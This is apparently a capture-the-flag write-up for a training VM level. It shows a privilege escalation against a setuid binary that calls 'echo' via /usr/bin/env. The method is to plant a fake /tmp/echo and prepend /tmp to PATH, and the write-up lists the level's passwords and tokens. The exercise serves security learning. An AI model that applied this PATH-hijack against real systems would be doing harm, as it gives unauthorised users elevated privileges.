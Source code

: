 # Level03 - Flag03

## Local script usage

```shell
Usage: ./Ressources/main.sh
```

## Passwords and token

|         |                             |
| ------- | --------------------------- |
| level03 | `kooda2puivaav1idi4f57q8iq` |
| flag03  |                             |
| token   | `qi0maab88jeaj46qoumi7maus` |

## Steps to resolve on VM

1. Connect to `level03` user and check the repo to find an executable with 's'(setuid) permission

```bash
su level03
# Enter the token

ls -l
> total 12
> -rwsr-sr-x 1 flag03 level03 8627 Mar  5  2016 level03

# The 's' means that by executing this 'level03',
# we will get the persmissions of the individual or group that owns the file (here the 'flag03' user)
./level03
> Exploit me

# By trying to display the file content, we can see the executed command
cat level03
[...]
usr/bin/env echo Exploit me
[...]
# 'echo Exploit me' executed with the 'usr/bin/env' command
```

2. Exploit that 's' permission to force 'level03' file to execute 'getflag' command

```bash
# First create a fake 'echo' command that will execute 'getflag'
echo "getflag" > /tmp/echo
# And give it execute permission
chmod +x /tmp/echo

# 'level03' executes 'usr/bin/env' command,
# so we need to trick it and replace the 'echo' command with our fake one by adding it at the beginning of PATH
PATH=/tmp:$PATH
```

3. Now execute 'level03' which will use our fake 'echo' to get the flag

```bash
./level03
> Check flag.Here is your token : qi0maab88jeaj46qoumi7maus
```

---

## Sources

### SHELL

- [What does s permission means ?](<https://askubuntu.com/questions/431372/what-does-s-permission-means#:~:text=s%20(setuid)%20means%20set%20user%20ID%20upon%20execution.&text=In%20this%20s%20permission%20was,user%2DID%20mode%20is%20set.>)
- [What is /usr/bin/env](https://stackoverflow.com/questions/43793040/how-does-usr-bin-env-work-in-a-linux-shebang-line#:~:text=env%20is%20the%20name%20of%20a%20Unix%20program.&text=Therefore%2C%20%2Fusr%2Fbin%2F,that%20contains%20the%20python3%20executable.)
- [How to add directory at beginning of PATH](http://www.troubleshooters.com/linux/prepostpath.htm)
